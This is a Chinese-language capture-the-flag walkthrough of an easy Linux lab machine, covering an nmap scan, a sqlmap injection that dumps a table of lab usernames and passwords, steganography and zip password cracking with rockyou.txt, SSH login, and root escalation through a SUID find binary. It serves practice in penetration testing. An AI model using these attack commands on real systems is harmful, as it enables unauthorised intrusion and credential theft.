









## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Desktop  
❯ nmap 172.17.0.2 -sV  -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 10:42 CST
Nmap scan report for 172.17.0.2
Host is up (0.000085s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2c:ea:4a:d7:b4:c3:d4:e2:65:29:6c:12:c4:58:c9:49 (ECDSA)
|_  256 a7:a4:a4:2e:3b:c6:0a:e4:ec:bd:46:84:68:02:5d:30 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Login Page
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.98 seconds
```

进入网页是一个登录页面，尝试使用常见的默认账户登陆失败。

## SQL Injection

使用**SQL**注入发现回显了错误信息



使用**sqlmap**进行注入

```
[root@kali] /home/kali/Desktop  
❯ sqlmap -u "http://172.17.0.2/auth.php" --data "username=root&password=root" -p password -vvv
```



```
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+
```

可以使用**admin**的账户登录进去，但是好像导向的就是**page.php**，而**page.php**不需要身份验证就可以进去

而这个查询温度的页面似乎也没有什么用。

尝试访问**172.17.0.2/directoriotravieso/**发现一个图片可以下载



## Zip Crack

尝试使用**steghide**进行提取，不过看起来需要密码



使用**stegcracker**进行密码爆破

```
[root@kali] /home/kali/Mirame  
❯ stegcracker miramebien.jpg /usr/share/wordlists/rockyou.txt                                                                                            ⏎
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2025 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'miramebien.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: chocolate
Tried 27 passwords
Your file has been written to: miramebien.jpg.out
chocolate
```

得到密码后再分离文件，发现还要密码。



再爆破压缩包文件

```
[root@kali] /home/kali/Mirame  
❯ zip2john ocultito.zip >> zip.hash 

[root@kali] /home/kali/Mirame  
❯ john zip.hash /usr/share/wordlists/rockyou.txt
```



得到密码为：**stupid1**

```
[root@kali] /home/kali/Mirame  
❯ cat secret.txt  
carlos:carlitos
```

进行**ssh**登录成功



## Root

上传**linpeas**查看详细，发现**find**命令有特殊权限



查看**GTFObins**

- [find | GTFOBins](https://gtfobins.github.io/gtfobins/find/)



非常简单

## Summary

`User`：通过**sql**注入泄露出了用户信息，但是我没想到的是居然是作为目录访问。然后获取到图片进行分离，可能涉及到一点Misc的内容。然后爆破压缩包，得到密码进行**ssh**登录。

`Root`：经典的**find**提权不多说了。
